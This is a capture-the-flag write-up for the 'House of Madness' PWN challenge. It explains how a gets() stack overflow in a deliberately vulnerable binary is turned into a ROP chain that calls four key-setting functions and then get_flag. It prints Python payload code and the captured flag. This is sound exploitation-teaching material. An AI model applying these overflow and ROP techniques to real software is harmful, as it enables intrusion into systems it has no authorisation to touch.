







# House of Madness

* **Category:** PWN
* **Points:** 897

## Challenge

> Welcome to the House of Madness. Can you pwn your way to the keys to get the relic?
> Note: ASLR is disabled for this challenge
> [Download](./challenge)

## Solution

To preface, this solve was after the challenge environment was fixed with ASLR being disabled. A solve while ASLR was enabled was possible.

While messing around with the binary at first we are met with a direction to enter `Stephen` in room 4.



Upon further analysis with Ghidra, we see that in room 4, we unlock access to a hidden room by entering `Stephen` that includes an unsanitized gets that would allow an overflow of `local_1c`



Ok, cool! Overwrite buffer, overwrite eip, call get_flag(), capture the...



\>:(

Alright step it back. Taking a look at get_flag() we see checks for 4 keys that are initialized by 4 other functions: `get_key1`, `get_key2`,`AAsDrwEk`,`set_key4`
While reversing the functions, it is important to note that `get_key2` will not initialize `key 2` if `key 1` is already initialized. In addition we see that `get_key1` takes an argument and compares it to 0xfeedc0de.
The obscure function `AAsDrwEk` sets `key 3` without any preconditions. Finally, `set_key4` initializes `key4` once the previous keys have been set. 
Ok, cool. Game plan is:



```python
get_flag = 0x5655686b
get_key1 = 0x565566de
get_key2 = 0x5655676e
get_key3 = 0x565567cd
get_key4 = 0x565567e9
arg = p32(0xfeedc0de)

padding = "A"*28 #Overflow buffer and overwrite saved eip
payload = padding + p32(get_key3) + p32(get_key2) + p32(get_key1) + p32(get_key4) + arg + p32(get_flag)   
```
Yay now I can finally get some sle-



\>:(
Some quick debugging shows that when get_key4 returns, esp is pointing to get_key1's argument and points eip to 0xfeedc0de.





To understand what needs to be accomplished, it is pivotal to understand what the ret instruction does. ret will take the value at esp's address and pop it into eip and then increment esp.
Therefore, in order to have `get_key1` to ret into `get_flag` which is at `esp + 0x4` on the stack, I need to somehow increment esp. Something to simply move `get_flag` to the top of the stack...
Oh yeah! A ROP gadget to pop off `0xfeedcode` off the stack and then ret into `get_flag`!
Using ```ROPgadget --binary ./houseof | grep pop```, we find a single `pop ebx; ret` instruction which does exactly that!
Now just add that to the exploit and claim the flag to satisfy your lack of sleep.
```python
get_flag = 0x5655686b
get_key1 = 0x565566de
get_key2 = 0x5655676e
get_key3 = 0x565567cd
get_key4 = 0x565567e9
arg = p32(0xfeedc0de)
pop_ret = p32(0x5655601e)

payload= "B"*28 + p32(get_key3) + p32(get_key2) + p32(get_key1) + pop_ret + arg + p32(get_key4) + p32(get_flag)
```


```
auctf{gu3ss_th3_h0us3_1sn't_th4t_m4d}
```
